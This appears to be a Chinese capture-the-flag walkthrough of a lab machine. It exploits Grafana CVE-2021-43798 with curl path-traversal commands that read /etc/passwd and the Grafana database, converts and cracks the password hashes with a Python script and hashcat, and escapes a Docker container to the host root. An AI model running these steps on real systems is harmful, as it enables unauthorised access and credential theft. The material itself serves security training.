




## Data

#### 两个服务SSH和Grafana正在端口22和3000上运行

### 1.根据https://hackerone.com/reports/1427086 得到目录遍历命令：/public/plugins/mysql/ → 插件路径
```
$ curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

$ curl http://41.242.91.22:3000/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fhostname
e6ff5b1cbc85 //主机名
```
### 2.根据https://www.vulncheck.com/blog/grafana-cve-2021-43798 得到命令：
```
curl -o grafana.db --path-as-is http://10.9.49.222:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db
```
##### --path-as-is → 关键参数，告诉 curl 不要规范化 URL 路径（即保留 ../ 不做裁剪）。否则 curl 可能会自动消除 ../ 导致攻击失败
##### /var/lib/grafana/grafana.db → Grafana 默认的 SQLite 数据库文件路径

### 3.解数据库的hash码
```
sqlite3 grafana.db
sqlite> .tables  //这里的表貌似只能显现一次，第二次便会清空 //查看表

sqlite> SELECT * FROM user; //查看表内容
```

##### “128 个十六进制” 和 “128 个 hex” 其实是同一个意思，只是表述不同,单位不同

### 4.Python3脚本将哈希转换为可破解的散列格式 
#### vi convert.py
```
#!/usr/bin/env python3
import base64
import binascii

#定义密码散列
PASSWORD_HEX ="dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8"

#定义盐
SALT_STR = "LCBhdtJWjl"

#格式化的标准迭代
ITERATIONS = 10000

#解码十六进制哈希
try:
    target_raw = binascii.unhexlify(PASSWORD_HEX)
except (binascii.Error, ValueError) as e:
    print("ERROR: PASSWORD_HEX is not valid hex:", e)
    sys.exit(1)

# Base64编码解码的十六进制
target_hash64 = base64.b64encode(target_raw).decode("utf-8")

# Base64编码盐
salt64 = base64.b64encode(SALT_STR.encode("utf-8")).decode("utf-8")

print(f"sha256:{ITERATIONS}:{salt64}:{target_hash64}")
```
##### unhexlify 就是把用 十六进制字符串表示的哈希 转回真正的 二进制字节
#### 到了Hashcat所需的散列格式：sha256:10000:<salt_base64>:<hash_base64>

#### hashcat --help 或 -hh
#### Hashcat 的模式号10900为PBKDF2-HMAC-SHA256 (Grafana)
```
$ hashcat -m 10900 hash1.txt rockyou.txt
```


### 5.容器逃逸
```
$ ssh boris@10.129.153.230
$ cat user.txt

$ sudo -l
```


尝试将主机的文件系统挂载到正在运行的容器中
运行容器的特权标志，然后挂载主机文件系统。
容器中，我们检查主机文件系统所在的位置（/dev/sda1），并将文件系统挂载到/mnt
```
xboris@data:~$ sudo docker exec -u root --privileged -it e6ff5b1cbc85 bash

bash-5.1# mount
bash-5.1# mount /dev/sda1 /mnt
bash-5.1# ls -la /mnt/root/root.txt
```

```
解析
docker exec → 在已经运行的容器中执行命令。
-u root → 指定用户是 root。
--privileged → 给容器额外的内核权限（可以执行 mount、访问宿主机设备等）。
-it → 交互模式进入。
e6ff5b1cbc85 → 容器的 ID。
bash → 进入容器的 shell

挂载宿主机的根分区 /dev/sda1 到 /mnt
```
